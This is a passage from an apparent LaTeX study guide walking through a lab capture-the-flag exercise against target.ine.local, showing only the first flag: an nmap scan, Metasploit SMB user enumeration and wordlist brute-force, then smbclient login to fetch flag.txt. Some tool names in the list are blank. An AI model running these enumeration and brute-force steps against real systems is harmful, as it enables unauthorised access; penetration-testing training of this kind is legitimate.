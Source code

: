 \chapter{CTF 3 --- SMB, FTP, SSH Multi-Flag}
\label{ctf:ctf3}

\begin{notebox}
Multi-service CTF with four flags spread across SMB, FTP, and SSH. Each flag
leaves a hint pointing toward the next service. The chain requires reading flag
content carefully before moving on.
\end{notebox}

\section*{Tools Used}
\begin{itemize}
  \item {} --- port discovery and service identification
  \item {} --- SMB user enumeration and login brute-force
  \item {} --- share access and file retrieval
  \item {} --- FTP credential brute-force
  \item {} --- SSH anonymous login attempt
\end{itemize}

\section*{Flag 1 --- SMB Share Access}

\begin{termbox}
# Step 1: Confirm SMB is open
nmap -sV -p 445 target.ine.local

# Step 2: Enumerate valid SMB users
msfconsole -q
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS target.ine.local
run

# Step 3: Brute-force credentials
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
\end{termbox}

Found valid credentials. Connected to the SMB share using  with
the SMBv2/v3 protocol flags required by this target:

\begin{termbox}
smbclient --option='client min protocol=SMB2' \
          --option='client max protocol=SMB3' \
          //target.ine.local/share_name -U found_user
# Inside smbclient:
ls
get flag.txt
exit
cat flag.txt
\end{termbox}

